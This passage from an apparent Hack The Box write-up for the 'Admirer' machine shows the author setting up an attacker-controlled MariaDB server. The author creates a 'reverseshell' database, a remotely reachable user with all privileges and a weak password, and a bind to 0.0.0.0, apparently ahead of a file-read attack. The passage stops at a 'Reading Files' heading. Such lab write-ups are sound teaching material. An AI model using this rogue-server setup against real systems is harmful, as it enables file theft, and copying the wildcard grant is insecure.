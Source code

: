 We'll host a MariaDB instance using the following commands, I have added comments against each command to understand its usage:

```shell
cfx:  ~/Documents/htb/admirer
→ service mysql start      #Start MySQL service

cfx:  ~/Documents/htb/admirer
→ mysql -u root                             #Login MySQL
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 51
Server version: 10.3.24-MariaDB-2 Debian build-unstable

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE DATABASE reverseshell;       #Creating a new database
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> CREATE USER 'cfx'@'%' IDENTIFIED BY 'coldfusionx'; #Creating user cfx:coldfusionx {username:password}
Query OK, 0 rows affected (0.046 sec)

MariaDB [(none)]> GRANT ALL PRIVILEGES ON *.* TO 'cfx'@'%'; #Granting user cfx privileges to access everything
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;   #Refresh Privileges of User
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> USE reverseshell; #Changing database to reverseshell
Database changed
MariaDB [reverseshell]> CREATE TABLE shell (data VARCHAR(255));  #Creating a table named shell
Query OK, 0 rows affected (0.081 sec)

MariaDB [reverseshell]> exit
Bye
```
Next, to allow remote connections to our MariaDB instance we need to change the `bind-address` value.

By default MariaDB listens on 127.0.0.1:3306, Inside `/etc/mysql/mariadb.conf.d/50-server.cnf` we change the value of bind-address to 0.0.0.0 and restart MySQL service:

```shell
# Instead of skip-networking the default is now to listen only on
# localhost which is more compatible and is not less secure.
bind-address            = 0.0.0.0 #127.0.0.1

cfx:  ~/Documents/htb/admirer
→ service mysql restart  #Restart MySQL service

```
### Reading Files
